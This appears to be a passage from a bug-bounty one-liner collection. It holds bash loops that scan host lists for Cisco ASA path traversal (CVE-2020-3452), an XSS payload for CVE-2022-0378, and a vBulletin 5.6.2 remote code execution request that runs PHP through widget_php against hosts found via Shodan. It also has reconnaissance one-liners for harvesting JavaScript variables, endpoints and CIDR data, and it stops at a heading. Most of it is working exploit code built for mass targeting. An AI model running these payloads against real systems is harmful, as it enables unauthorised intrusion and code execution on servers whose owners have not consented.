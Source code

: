 ### CVE-2020-3452
> @vict0ni

```bash
while read LINE; do curl -s -k "https://$LINE/+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/portal_inc.lua&default-language&lang=../" | head | grep -q "Cisco" && echo -e "[${GREEN}VULNERABLE${NC}] $LINE" || echo -e "[${RED}NOT VULNERABLE${NC}] $LINE"; done < HOSTS.txt
```

### CVE-2022-0378
> @7h3h4ckv157

```bash
cat URLS.txt | while read h do; do curl -sk "$h/module/?module=admin%2Fmodules%2Fmanage&id=test%22+onmousemove%3dalert(1)+xx=%22test&from_url=x"|grep -qs "onmouse" && echo "$h: VULNERABLE"; done
```

### vBulletin 5.6.2 - 'widget_tabbedContainer_tab_panel' Remote Code Execution
> @Madrobot_

```bash
shodan search http.favicon.hash:-601665621 --fields ip_str,port --separator " " | awk '{print $1":"$2}' | while read host do ;do curl -s http://$host/ajax/render/widget_tabbedcontainer_tab_panel -d 'subWidgets[0][template]=widget_php&subWidgets[0][config][code]=phpinfo();' | grep -q phpinfo && \printf "$host \033[0;31mVulnerable\n" || printf "$host \033[0;32mNot Vulnerable\n";done;
```

### Find JavaScript Files
> @D0cK3rG33k

```bash
assetfinder --subs-only HOST | gau | egrep -v '(.css|.png|.jpeg|.jpg|.svg|.gif|.wolf)' | while read url; do vars=$(curl -s $url | grep -Eo "var [a-zA-Zo-9_]+" | sed -e 's, 'var','"$url"?',g' -e 's/ //g' | grep -v '.js' | sed 's/.*/&=xss/g'):echo -e "\e[1;33m$url\n" "\e[1;32m$vars"; done
```

### Extract Endpoints from JavaScript
> @renniepak

```bash
cat FILE.js | grep -oh "\"\/[a-zA-Z0-9_/?=&]*\"" | sed -e 's/^"//' -e 's/"$//' | sort -u
```

### Get CIDR & Org Information from Target Lists
> @steve_mcilwain

```bash
for HOST in $(cat HOSTS.txt);do echo $(for ip in $(dig a $HOST +short); do whois $ip | grep -e "CIDR\|Organization" | tr -s " " | paste - -; d
one | uniq); done
```

### Get Subdomains from RapidDNS.io
> @andirrahmani1
